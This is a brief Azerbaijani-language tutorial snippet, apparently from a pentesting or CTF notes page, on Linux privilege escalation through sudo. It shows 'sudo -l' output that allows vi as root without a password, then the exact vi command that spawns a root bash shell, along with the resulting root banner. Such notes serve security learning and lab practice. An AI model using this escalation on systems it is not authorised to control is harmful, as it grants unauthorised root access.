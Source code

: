 ## Sudo -l 

bu kimi, müəyyən əmrləri root parolu olmadan kök istifadəçi kimi işlədə bildiyinizi görəcəksiniz. Bu, imtiyazları artırmağa imkan verə bilər.


Sudo -l verilende eger bunu gorursense:
-------
 user8@polobox:~$ sudo -l
  matching defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  'user user8 may run the following commands on polobox:'
    (root) NOPASSWD: /usr/bin/vi
   user8@polobox:~$ 
-------

bunu yaz:
# sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

ve bele gorsenecek

user8@polobox:~$ sudo -u root /usr/bin/vi -c ':!/bin/bash' /dev/null

Welcome to Linux Lite 4.4 root
 
Monday 22 January 2024, 07:58:24
Memory Usage: 348/1991MB (17.48%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
